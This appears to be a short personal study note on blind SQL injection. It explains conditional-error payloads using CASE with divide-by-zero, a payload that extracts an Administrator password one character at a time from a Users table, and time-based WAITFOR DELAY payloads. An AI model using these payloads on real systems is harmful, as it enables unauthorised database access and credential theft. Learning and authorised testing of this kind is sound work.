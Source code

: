 ### Title Blind sqli
Tags:
Author:
Reference:

#### Notes
**Summary**: 1-2 sentence overview
**Notes**:
###### Condition based SQLi
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true:

- With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error.
- With the second input, it evaluates to `1/0`, which causes a divide-by-zero error.

a payload can be: `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`


###### Time based SQLi
```
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
- The first of these inputs does not trigger a delay, because the condition `1=2` is false.
- The second input triggers a delay of 10 seconds, because the condition `1=1` is true.